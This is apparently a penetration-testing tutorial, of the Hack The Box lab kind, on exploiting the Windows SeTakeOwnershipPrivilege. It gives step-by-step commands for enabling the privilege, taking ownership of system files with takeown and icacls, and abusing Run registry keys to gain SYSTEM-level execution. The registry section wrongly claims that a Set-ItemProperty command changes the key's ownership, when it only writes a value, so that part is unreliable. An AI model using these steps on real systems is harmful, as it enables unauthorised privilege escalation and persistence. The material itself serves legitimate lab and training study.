# SeTakeOwnershipPrivilege

#### **What is SeTakeOwnershipPrivilege?**

* **SeTakeOwnershipPrivilege** is a Windows privilege that allows users to take ownership of objects, such as files, folders, or registry keys, even if they do not have explicit permissions to do so. Once ownership is taken, the user can modify the object's permissions to grant themselves full control, effectively bypassing access restrictions.
* **Key Command:**
  * `whoami /priv` → Use this command to check if **SeTakeOwnershipPrivilege** is enabled for your user account.

#### **Exploiting SeTakeOwnershipPrivilege**

If a user has **SeTakeOwnershipPrivilege**, they can take control of sensitive objects like system files or critical processes and modify their permissions to gain access or execute arbitrary commands. Here's how you can exploit this privilege to escalate your privileges:

```
PS C:\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                                              State
============================= ======================================================= ========
SeTakeOwnershipPrivilege      Take ownership of files or other objects                Disabled
```

If privilege is disabled, we can enable it using this script [https://github.com/proxb/PoshPrivilege/blob/master/PoshPrivilege/Scripts/Enable-Privilege.ps1](https://github.com/proxb/PoshPrivilege/blob/master/PoshPrivilege/Scripts/Enable-Privilege.ps1)

```
PS C:\> Import-Module .\Enable-Privilege.ps1
PS C:\> .\EnableAllTokenPrivs.ps1
PS C:\> whoami /priv

PRIVILEGES INFORMATION
----------------------
Privilege Name                Description                              State
============================= ======================================== =======
SeTakeOwnershipPrivilege      Take ownership of files or other objects Enabled
```

## **1. Taking Ownership of Files or Directories**

**SeTakeOwnershipPrivilege** allows you to change ownership of a file or folder, giving you the ability to modify or access restricted files. After taking ownership, you can change its **Discretionary Access Control List (DACL)** to grant yourself full control.

**Steps to Exploit SeTakeOwnershipPrivilege on Files:**

1.  **Take Ownership of a File or Directory:**

    Use the `takeown` command to take ownership of a file or directory.

    **Command:**

    ```php-template
    takeown /F <file_or_folder_path>
    ```

    Example:

    ```mathematica
    takeown /F C:\Windows\System32\drivers\etc\hosts
    ```

    This command changes the ownership of the specified file to your user account.
2.  **Grant Yourself Full Control Over the File:**

    After taking ownership, modify the file's permissions using the `icacls` command to give yourself full control.

    **Command:**

    ```php-template
    icacls <file_or_folder_path> /grant <username>:F
    ```

    Example:

    ```bash
    icacls C:\Windows\System32\drivers\etc\hosts /grant <username>:F
    ```

    * **/grant** → Grants full control (`F`) over the file to the specified user.
3.  **Modify or Access the File:**

    After granting yourself full control, you can now edit, delete, or access the file as needed. For example, you can now modify sensitive system files like `hosts`, or even replace system executables with malicious ones to gain SYSTEM-level privileges.

## **2. Taking Ownership of Registry Keys**

You can also use **SeTakeOwnershipPrivilege** to modify ownership and permissions of critical registry keys, which may allow you to escalate privileges.

**Steps to Exploit Registry Keys:**

1.  **Take Ownership of a Registry Key:**

    Use **regedit** or `PowerShell` to change the ownership of a registry key. You can take ownership of sensitive keys such as those related to user accounts, services, or startup configurations.

    **Example in PowerShell:**

    ```powershell
    Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" -Name "<key>" -Value "<value>"
    ```

    This changes the ownership of the key, allowing you to modify startup settings or other critical configurations.
2.  **Modify Permissions:**

    After taking ownership, modify the permissions to grant yourself full control. You can now alter the key's values to execute malicious code, start services with SYSTEM privileges, or add new startup entries.

